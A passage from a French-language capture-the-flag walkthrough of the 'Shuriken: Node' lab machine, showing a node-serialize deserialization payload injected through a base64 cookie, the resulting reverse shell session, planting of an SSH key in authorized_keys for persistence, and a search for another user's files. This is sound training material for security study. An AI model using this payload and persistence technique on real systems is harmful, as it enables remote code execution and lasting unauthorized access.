Il faut par conséquent modifier le JSON après l'étape de sérialisation pour rajouter les parenthèses provoquant l'appel :

```json
{"username":"_$$ND_FUNC$$_function() { return eval(...);}()"}
```

On encode la totalité en base64 et on injecte le cookie dans le navigateur (j'utilise [EditThisCookie - Chrome Web Store](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg) qui fait très bien le taff).

Je recharge la page et le code est bien désérialisé par le serveur et exécuté :

```shellsession
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.55.
Ncat: Connection from 192.168.56.55:40918.
Connected!
id
uid=1001(web) gid=1001(web) groups=1001(web)
pwd 
/home/web/shuriken-node
cd ..
ls -al
total 36
drwxr-xr-x 6 web  web  4096 Dec 10  2020 .
drwxr-xr-x 4 root root 4096 Dec  9  2020 ..
lrwxrwxrwx 1 root root    9 Dec  9  2020 .bash_history -> /dev/null
-rw-r--r-- 1 web  web   220 Dec  9  2020 .bash_logout
-rw-r--r-- 1 web  web  3771 Dec  9  2020 .bashrc
drwxrwxr-x 4 web  web  4096 Dec  9  2020 .npm
drwxrwxr-x 5 web  web  4096 Nov 14 16:52 .pm2
-rw-r--r-- 1 web  web   807 Dec  9  2020 .profile
drwxrwxr-x 5 web  web  4096 Dec  9  2020 shuriken-node
drwx------ 2 web  web  4096 Dec 10  2020 .ssh
cd .ssh
ls -al
total 12
drwx------ 2 web web 4096 Dec 10  2020 .
drwxr-xr-x 6 web web 4096 Dec 10  2020 ..
-rw-r--r-- 1 web web  222 Dec 10  2020 known_hosts
echo ssh-rsa ---snip ma clé publique ssh snip--- > authorized_keys
```

Je peux alors me connecter avec SSH ce qui sera moins galère si je dois reprendre un accès plus tard.

Je cherche les fichiers liés au second utilisateur présent sur le système :

```shellsession
web@shuriken-node:/home$ find / -user serv-adm -exec file {} \; 2> /dev/null 
/var/lib/lightdm-data/serv-adm: directory
/var/backups/ssh-backup.zip: Zip archive data, at least v2.0 to extract
/etc/systemd/system/shuriken-job.service: ASCII text
/etc/systemd/system/shuriken-auto.timer: ASCII text
/home/serv-adm: directory
```

